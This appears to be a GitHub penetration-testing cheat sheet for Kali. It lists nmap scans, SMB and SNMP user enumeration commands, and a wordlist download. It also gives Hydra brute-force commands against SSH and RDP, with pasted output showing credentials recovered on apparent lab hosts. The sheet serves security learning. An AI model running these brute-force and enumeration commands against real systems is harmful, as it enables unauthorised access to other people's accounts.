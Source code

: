 #Kali-Help-Sheet

# TTY Shells
## Python TTY Shell Trick


# 🕵️ Recon and Enumeration

## 🌐 NMAP Commands

Nmap (“Network Mapper”) is a free and open-source utility for network discovery and security auditing. It's a versatile tool used by both systems and network administrators for tasks like network inventory, managing service upgrade schedules, and monitoring host or service uptime. Nmap runs on all major computer operating systems, and official binary packages are available for Linux, Windows, and Mac OS X.

### Commands

| Command | Description |
|---------|-------------|
| `nmap -v -sS -A -T4 target` | Nmap verbose scan, runs syn stealth, T4 timing, OS and service version info, traceroute and scripts against services. |
| `ping sweep sudo nmap -pn target` | Does a ping sweep over the target's network to see all the available IPs. |
| `nmap -v -sS -p–A -T4 target` | As above but scans all TCP ports (takes a lot longer). |
| `nmap -v -sU -sS -p- -A -T4 target` | As above but scans all TCP ports and UDP scan (takes even longer). |
| `nmap -v -p 445 –script=smb-check-vulns --script-args=unsafe=1 192.168.1.X` | Nmap script to scan for vulnerable SMB servers. |
| `nmap localhost` | Displays all the ports that are currently in use. |
| `ls /usr/share/nmap/scripts/* | grep ftp` | Search nmap scripts for keywords. |

# 👤 Username Enumeration

## SMB User Enumeration

| Command | Description |
|---------|-------------|
| `python /usr/share/doc/python-impacket-doc/examples/samrdump.py 192.16X.XXX.XXX` | Enumerate users from SMB |
| `ridenum.py 192.16X.XXX.XXX 500 50000 dict.txt` | RID cycle SMB / enumerate users from SMB |
| `enum4linux -U 192.16X.XXX.XXX` | Enumerate SMB usernames using enum4linux |
## SNMP User Enumeration

| Command | Description |
|---------|-------------|
| `snmpwalk public -v1 192.168.X.XXX 1 | grep 77.1.2.25` | Enumerate users from SNMP |
| `python /usr/share/doc/python-impacket-doc/examples/samrdump.py SNMP 192.168.X.XXX` | Enumerate users from SNMP |
| `nmap -sT -p 161 192.168.X.XXX/254 -oG snmp_results.txt` | Search for SNMP servers with nmap, grepable output |

# 🔒 Passwords

## Wordlists

| Command | Description |
|---------|-------------|
| `/usr/share/wordlists` | Kali word lists |
| `wget https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt` | Download a popular wordlist from GitHub |

# 🐍 Hydra

#Bruteforce de contraseña con usuario que sabemos
`hydra -l <username> -P /usr/share/wordlists/rockyou.txt http://<IP_Address>`

## Bruteforce de SSH

| Command | Description |
|---------|-------------|
| `hydra -L username.list -P password.list ssh://10.129.202.136` | Bruteforce de SSH |
| Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway). | |
| Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-08 09:41:16 | |
| `[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4` | |
| `[DATA] max 16 tasks per 1 server, overall 16 tasks, 21112 login tries (l:104/p:203), ~1320 tries per task` | |
| `[DATA] attacking ssh://10.129.202.136:22/` | |
| `[STATUS] 156.00 tries/min, 156 tries in 00:01h, 20958 to do in 02:15h, 14 active` | |
| `[22][ssh] host: 10.129.202.136   login: dennis   password: rockstar` | |

## Bruteforce de RDP

| Command | Description |
|---------|-------------|
| `hydra -L username.list -P password.list rdp://10.129.202.136` | Bruteforce de RDP |
| Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway). | |
| Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-08 09:51:50 | |
| `[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover` | |
| `[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)` | |
| `[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.` | |
| `[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore` | |
| `[DATA] max 4 tasks per 1 server, overall 4 tasks, 21112 login tries (l:104/p:203), ~5278 tries per task` | |
| `[DATA] attacking rdp://10.129.202.136:3389/` | |
| `[3389][rdp] account on 10.129.202.136 might be valid but account not active for remote desktop: login: john password: november, continuing attacking the account.` | |

